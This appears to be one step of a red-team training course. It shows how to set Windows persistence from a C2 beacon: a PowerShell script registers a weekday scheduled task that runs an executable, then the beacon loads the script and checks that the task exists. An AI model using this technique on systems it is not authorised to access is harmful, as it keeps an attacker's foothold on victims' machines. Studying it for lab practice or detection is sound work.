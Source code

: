 # Setting Persistence

1. With your new beacon lets set simple persistence using `scheduled task` 
2. On parrot lets create a `.ps1` for our persistence 
3. If you have sublime installed run , alternatively use vim
    ```
    subl scktask.ps1
    ```

    ```
    vim scktask.ps1
    ```
4. Paste the following and save your script
    ```powershell
    $outpath = "C:\window\public\downloads\test.exe"
    $action = New-ScheduledTaskAction -Execute $outpath
    $days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
    $trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Persistence Test" -Description "We got persistence"
    ```
5. In your beacon run pslo
    ```powershell
    pslo 
    ```
6. You should get confirmation your script work 

7. Lets verify our persistence is working by running sharpps 
    ```powershell
    sharpps get-scheduledtask -Taskname "Persistence Test"
    ```

    ## [Return to course page](README.md) or [Go To Next Step](step4-nginx-ssl-setup.md)